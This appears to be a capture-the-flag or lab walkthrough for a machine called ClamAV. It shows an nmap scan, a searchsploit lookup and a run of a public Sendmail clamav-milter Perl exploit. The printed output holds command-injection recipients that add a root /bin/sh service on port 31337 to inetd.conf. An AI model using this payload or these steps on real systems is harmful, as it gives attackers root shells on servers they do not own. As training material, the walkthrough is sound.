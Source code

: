 # ClamAV

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 21:01 +08
Warning: 192.168.175.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.175.42
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### ClamAV Root

This machine was obviously hinting towards abusing ClamAV, the Antivirus. The SMTP port was open, and we can search for exploits using `searchsploit`:

```
$ searchsploit clamav    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Hea | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Derefer | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow           | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution            | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (P | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service   | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Meta | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Exec | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Exec | multiple/remote/4761.pl
----------------------------------------------------------- ---------------------------------
```

The last exploit looked interesting because it had 'Sendmail' in it. We can try it out:

```
$ perl 4761.pl 192.168.175.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.175.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 1 Jul 2023 13:02:43 -0400; (No UCE/UBE) logging access from: [192.168.45.164](FAIL)-[192.168.45.164]
250-localhost.localdomain Hello [192.168.45.164], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 361H2hEV004002 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

This exploit would spawn a `root` shell on port 31337 which we can connect to:

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Rooted!
